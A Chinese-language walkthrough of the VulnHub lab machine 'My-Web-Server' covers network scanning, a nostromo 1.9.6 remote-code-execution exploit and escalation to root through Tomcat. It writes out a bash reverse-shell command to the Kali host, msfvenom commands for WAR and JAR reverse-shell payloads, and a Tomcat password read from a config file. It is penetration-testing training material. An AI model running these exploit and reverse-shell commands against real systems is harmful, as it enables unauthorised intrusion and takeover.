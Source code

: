 ## My-Web-Server : Walkthrough

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali          | `192.168.1.112` |
| My-Web-Server | `192.168.1.103` |

### 扫描端口和版本信息

`nmap -A 192.168.1.103`

![1](../src/vulnhub/my_web_server/1.png)

扫描结果又是有多个 Web 应用，为了避免犯之前的错误，这里我进行扫描全部端口，不过结果并没有差异

### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，服务器运行着不同的 Web 应用。经过 *dirb* ，*searchsploit* 等测试后，发现 **2222** 端口运行的 **nostromo 1.9.6** 服务器具有 RCE 漏洞

![2](../src/vulnhub/my_web_server/2.png)

![3](../src/vulnhub/my_web_server/3.png)

![4](../src/vulnhub/my_web_server/4.png)

运行 Python 脚本，发现可以利用成功

![5](../src/vulnhub/my_web_server/5.png)

### Getshell

既然服务器具有 RCE 漏洞并且可以利用，那么接下来我们就通过获取 shell 来更方便的执行命令

```python
python2 47837.py 192.168.1.103 2222 "bash -c \"bash -i >& /dev/tcp/192.168.1.112/4455 0>&1\""
```

Kali 监听 **4455** 端口，即可连接到 shell。之后使用 *find* 在找该用户可写入的目录时我们发现该用户可以写 Tomcat 配置文件所在的目录

`find / -writable -type d 2>/dev/null`

![6](../src/vulnhub/my_web_server/6.png)

通过读 Tomcat 应用的用户文件（**/usr/local/tomcat/conf/tomcat-users.xml**），我们可以得到 Tomcat 的用户名和密码：`tomcat:@sprot0230sp`，使用该账户和密码登录 Tomcat 系统

![7](../src/vulnhub/my_web_server/7.png) 

在系统后台，我们可以通过上传 WAR file 来提高权限，并且可以在 Kali 平台上使用 *msfvenom* 工具生成反向 shell 文件

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.112 LPORT=5566 -f war > getshell.war
```

![8](../src/vulnhub/my_web_server/8.png)

### 提权

Kali 本地监听 **5566** 端口，浏览器访问 ` http://192.168.1.103:8080/getshell/`路径即可反弹 shell

![9](../src/vulnhub/my_web_server/9.png)

看来我们切换到了 *tomcat* 账户下，并且发现可以 sudo 执行 `/usr/lib/jvm/adoptopenjdk-8-hotspot-amd64/bin/java` 工具，因此该工具是运行 java 程序，那么我们再使用 msfvenom 生成一个 java 格式的反向 shell 即可

`msfvenom -p java/shell_reverse_tcp LHOST=192.168.1.112 LPORT=7788 -f jar > getroot.jar`

![10](../src/vulnhub/my_web_server/10.png)

Kali 监听 **7788** 端口即可获得 root 权限

![11](../src/vulnhub/my_web_server/11.png)